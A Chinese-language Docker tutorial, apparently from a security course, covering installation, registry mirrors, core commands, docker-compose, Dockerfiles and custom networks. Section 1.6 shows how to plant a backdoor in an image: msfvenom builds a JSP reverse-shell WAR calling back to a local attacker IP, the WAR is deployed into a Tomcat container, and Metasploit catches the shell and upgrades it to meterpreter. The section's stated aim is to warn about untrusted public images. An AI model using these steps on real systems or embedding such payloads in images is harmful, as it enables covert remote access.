

# 容器

## 1.1 docker简介

```
Docker 是一个开源的应用容器引擎，基于 Go 语言 并遵从Apache2.0协议开源。
Docker 可以让开发者打包他们的应用以及依赖包到一个轻量级、可移植的容器中，然后发布到任何流行的 Linux 机器上，也可以实现虚拟化。
容器是完全使用沙箱机制，相互之间不会有任何接口（类似iPhone的app）,更重要的是容器性能开销极低。
```


## 1.2 docker的本质

简单来说，容器和虚拟机具有相似的资源隔离和分配优势,但功能有所不同,因为容器虚拟化的是操作系统,而不是硬件,因此容器更容易移植，效率也更高。
传统虚拟机技术是虚拟出一套硬件后，在其上运行一个完整操作系统，在该系统上再运行所需应用进程；
而容器内的应用进程直接运行于宿主的内核，容器内没有自己的内核，而且也没有进行硬件虚拟。因此容器要比传统虚拟机更为轻便。


## 1.3 docker的安装

```
yum install -y yum-utils
yum-config-manager --add-repo https://download.docker.com/linux/centos/docker-ce.repo
yum install -y docker-ce docker-ce-cli --allowerasing
```

## 1.4 设置国内镜像源

执行如下命令：

```
mkdir -p /etc/docker
tee /etc/docker/daemon.json <<-'EOF'
{
    "registry-mirrors": [
        "http://hub-mirror.c.163.com",
        "https://docker.mirrors.ustc.edu.cn",
        "https://registry.docker-cn.com"
    ]
} 
EOF
```


重启docker服务，并查看是否启动成功。


## 1.5 docker指令

### 1.5.1 docker search

使用 docker search 命令来搜索镜像。

比如我们需要一个 nginx 的镜像来作为我们的 web 服务。我们可以通过 docker search 命令搜索 nginx 来寻找适合我们的镜像。

```
docker search nginx
```


**NAME:** 镜像仓库源的名称
**DESCRIPTION:** 镜像的描述
**OFFICIAL:** 是否 docker 官方发布
**stars:** 类似 Github 里面的 star，表示点赞、喜欢的意思。
**AUTOMATED:** 自动构建。


### 1.5.2 docker pull

使用命令 docker pull 来下载镜像。

```
docker pull nginx
```


### 1.5.3 docker images

使用 **docker images** 来列出本地主机上的镜像。


各个选项说明:

- **REPOSITORY：**表示镜像的仓库源
- **TAG：**镜像的标签
- **IMAGE ID：**镜像ID
- **CREATED：**镜像创建时间
- **SIZE：**镜像大小


### 1.5.4 docker run 

创建一个新的容器并运行一个命令,其中常用的参数如下：

```
-d: 后台运行容器，并返回容器ID；
-i: 以交互模式运行容器，通常与 -t 同时使用；
-P: 随机端口映射，容器内部端口随机映射到主机的端口
-p: 指定端口映射，格式为：主机(宿主)端口:容器端口
-t: 为容器重新分配一个伪输入终端，通常与 -i 同时使用；
--name="fsec": 为容器指定一个名称；
-v: 绑定一个卷;
--net="bridge": 指定容器的网络连接类型，支持 bridge/host/none/container: 四种类型；
```

使用镜像nginx:latest以后台模式启动一个容器,并将容器命名为fsec1.

```
docker run --name fsec1 -d nginx:latest
```


使用镜像nginx:latest以后台模式启动一个容器,并将容器的80端口映射到主机随机端口,同时容器命名为fsec2.

```
docker run --name fsec2 -P -d nginx:latest
```


使用镜像 nginx:latest，以后台模式启动一个容器,将容器的 8080 端口映射到主机的 80 端口,主机的目录 /data 映射到容器的 /data,,同时容器命名为fsec3.

```
docker run --name fsec3 -p 8888:80 -v /data:/data -d nginx:latest
```


### 1.5.5 docker ps

用于列出容器，常用参数如下：

```
-a :显示所有的容器，包括未运行的。
-f :根据条件过滤显示的内容。
-q :静默模式，只显示容器编号。
```

列出所有在运行的容器信息

```
docker ps
```


输出详情介绍：

**CONTAINER ID:** 容器 ID。

**IMAGE:** 使用的镜像。

**COMMAND:** 启动容器时运行的命令。

**CREATED:** 容器的创建时间。

**STATUS:** 容器状态。

状态有7种：

- created（已创建）
- restarting（重启中）
- running（运行中）
- removing（迁移中）
- paused（暂停）
- exited（停止）
- dead（死亡）

**PORTS:** 容器的端口信息和使用的连接类型（tcp\udp）。

**NAMES:** 自动分配的容器名称。


列出所有创建的容器ID

```
docker ps -a -q
docker ps -aq
```


### 1.5.6 docker start/stop/restart

```
docker start:启动一个或多个已经被停止的容器
docker stop :停止一个运行中的容器
docker restart:重启容器
```

指令中，可以填写CONTAINER ID或NAMES进行参数的指定。


### 1.5.7 进入容器执行命令行

进入已经启动的容器，开启一个交互模式的终端

```
docker exec -ti fsec3 /bin/bash
```

创建容器时，直接进入终端

```
docker run --name fsec4 -ti nginx:latest /bin/bash
```


### 1.5.8 docker rm/rmi

```
删除容器 docker rm 

删除已启动的容器会报错，可以停止再删，或者强制删除
强制删除容器  docker rm -f       

批量删除
docker rm -f $(docker ps -a -q) 
```


```
删除镜像 docker rmi
```


### 1.5.9 文件传递

从主机复制到容器

```
docker cp 主机路径 容器ID:容器路径
```

```
docker run --name fsec-nginx1 -P -d nginx:latest
docker cp /etc/passwd fsec-nginx1:/opt
docker exec -ti fsec-nginx1 cat /opt/passwd
```




从容器复制到主机

```
docker cp 容器ID:容器路径 主机路径
```

```
docker cp fsec-nginx1:/opt/passwd /opt
cat /opt/passwd
```


### 1.5.10 docker commit

从容器创建一个新的镜像，常用参数如下：

```
-a :提交的镜像作者；
-c :使用Dockerfile指令来创建镜像；
-m :提交时的说明文字；
-p :在commit时，将容器暂停。
```

```
[root@C1 ~]# docker ps
[root@C1 ~]# docker exec -ti fsec-nginx1 /bin/bash
root@1df5bff6cad7:/# ls /opt
root@1df5bff6cad7:/# exit
[root@C1 ~]# docker commit -a "fsec.io" -m "fsec-nginx" 1df5bff6cad7 fsec/v1
[root@C1 ~]# docker commit -a "fsec.io" -m "fsec-nginx" 1df5bff6cad7 fsec:v1
```


```
docker run --name fsec-v1 -p 9999:80 -d fsec:v1
docker exec fsec-v1 ls /opt
```


### 1.5.11 docker save/load

docker save 将指定镜像保存成 tar 归档文件，通过-o指定输出到的文件。

```
[root@C1 ~]# docker save -o fsec_v1.tar fsec:v1
```


docker load :导入使用docker save命令导出的镜像，通过-i 指定导入的文件。

```
docker rm -f $(docker ps -a -q)
docker rmi xxx
docker images
docker load -i fsec_v1.tar
```


## 1.6 整合测试--制作自己的镜像

在docker的生态中，任何人都可以进行镜像的同步并供其他人下载使用。那么是否应该完全信任公开渠道中的镜像？

为此我们可以制作一个有问题的容器。

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.231 LPORT=4444 -f war >fsec.war
scp shell.war root@192.168.0.33:/opt
docker search tomcat
docker pull tomcat
docker run --name testa -P -d tomcat:latest
docker cp /opt/shell.war testa:/usr/local/tomcat/webapps
msfconsole
set payload java/jsp_shell_reverse_tcp
set lhost 192.168.0.231
exploit -j -z
use post/multi/manage/shell_to_meterpreter
set session x
exploit
```


## 1.7 docker-compose

Compose是用于定义和运行多容器Docker应用程序的工具。通过Compose，可以使用YAML文件来配置应用程序的服务。然后，使用一个命令，就可以从配置中创建并启动所有服务。

Docker-Compose是一个容器编排工具。通过一个.yml或.yaml文件，将所有的容器的部署方法、文件映射、容器端口映射等情况写在一个配置文件里，执行docker-compose up命令就像执行脚本一样，一个一个的安装并部署容器。

Docker Compose将所管理的容器分为三层：

工程（project）；
服务（service）；
容器（container）；

使用compose这个容器编排工具，必须下载docker-compose这个命令

```
curl -L https://get.daocloud.io/docker/compose/releases/download/1.25.0/docker-compose-`uname -s`-`uname -m` > /usr/local/bin/docker-compose
chmod +x /usr/local/bin/docker-compose
docker-compose -v
```

构建简单的Nginx服务.yml文件：

[root@C1 ~]# vim docker-compose.yml

```
version: "3"                            //指定语法的格式的版本
services:                               //定义服务
  nginx:                                //服务的名称
    container_name: fsec-nginx1         //容器的名称
    image: nginx:latest                 //所使用的镜像
    restart: always                     //随docker服务的启动而启动
    ports:
      - 8888:80                         //映射的端口
    volumes:
      - /data/fsec-nginx1:/usr/share/nginx/html  //本地与容器挂载的目录
      ps:实际操作的时候，把注释的内容去除掉，否则可能报错
```

```
docker-compose -f /root/docker-compose.yml up -d
```


## 1.8 dockerfile

 dockerfile就是用来构建docker镜像的构建文件，命令参数脚本。

构建步骤：
1、编写一个dockerfile 文件
2、docker build构建成为一个镜像
3、docker run 运行镜像
4、docker push 发布镜像

**Dockerfile 的指令**

```
FROM #基础镜像，一切从这里开始构建
MAINTAINER #镜像是谁写的，名字+邮箱
RUN #镜像构建的时候被需要运行的命令
ADD #步骤，tomcat镜像，这个tomcat压缩包，添加内容
WORKDIR #镜像的挂载目录
VOLUME #挂载的目录
EXPOST #保留端口配置
CMD #指定这个容器启动的时候要运行的命令，只有之后一个会生效，可被替代
ENTRYPOINT #指定这个容器启动的时候要运行的命令，可以追加命令
COPY #类似ADD，将我们文件拷贝到镜像中
ENV #构建的时候设置环境变量
```

测试一：定制一个nginx镜像

构建好的镜像内会有一个 /usr/share/nginx/html/index.html 文件
在一个空目录下，新建一个名为 Dockerfile 文件，并在文件内添加以下内容：

```
FROM nginx
RUN echo 'hello world' > /usr/share/nginx/html/index.html
```

```
docker build -t nginx:v3 .
```


**注意**：Dockerfile 的指令每执行一次都会在 docker 上新建一层。所以过多无意义的层，会造成镜像膨胀过大。例如：

```
FROM centos
RUN yum -y install wget
RUN wget -O redis.tar.gz "http://download.redis.io/releases/redis-5.0.3.tar.gz"
RUN tar -xvf redis.tar.gz
```

以上执行会创建 3 层镜像。可简化为以下格式：

```
FROM centos
RUN yum -y install wget \
  && wget -O redis.tar.gz "http://download.redis.io/releases/redis-5.0.3.tar.gz" \
  && tar -xvf redis.tar.gz
```

如上，以 **&&** 符号连接命令，这样执行后，只会创建 1 层镜像。

github上可以找到很多复杂的Dockerfile用于学习，我们就不误人子弟了~


## 1.9 docker network

《以下内容仅供娱乐，不作为正式课程，更请不要应用于生产环境》


```
echo "1" > /proc/sys/net/ipv4/ip_forward
systemctl start firewalld
firewall-cmd --zone=public --add-masquerade --permanent
firewall-cmd --reload

yum install -y yum-utils
yum-config-manager --add-repo https://download.docker.com/linux/centos/docker-ce.repo
yum install -y docker-ce docker-ce-cli --allowerasing

mkdir -p /etc/docker

tee /etc/docker/daemon.json <<-'EOF'
{
    "registry-mirrors": [
        "http://hub-mirror.c.163.com",
        "https://docker.mirrors.ustc.edu.cn",
        "https://registry.docker-cn.com"
    ]
} 
EOF

systemctl start docker

docker pull nginx
docker network create --subnet=172.20.0.0/24 farmsec
docker network ls
docker run -itd --net farmsec  --name nginx1 nginx
docker run -itd --net farmsec  --name nginx2 nginx
docker network inspect farmsec
```


